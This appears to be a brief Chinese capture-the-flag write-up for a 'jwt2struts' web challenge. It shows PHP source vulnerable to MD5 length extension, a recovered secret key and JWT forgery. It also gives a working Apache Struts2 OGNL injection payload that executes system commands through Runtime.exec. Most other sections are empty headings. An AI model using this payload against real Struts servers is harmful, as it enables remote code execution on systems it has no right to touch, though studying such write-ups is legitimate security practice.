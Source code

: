 \*ctf
# web
### jwt2struts
```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

md5扩展攻击

获取到secret-key`sk-he00lctf3r` 根据题目名也知道应该是要考struts
伪造jwt为admin
在age框里输入*payload*可以回显命令执行结果
> 当用户提交 age 为字符串而非整形数值时，后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```


# reverse
### GoGpt
一道go的逆向题

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-31   18:44
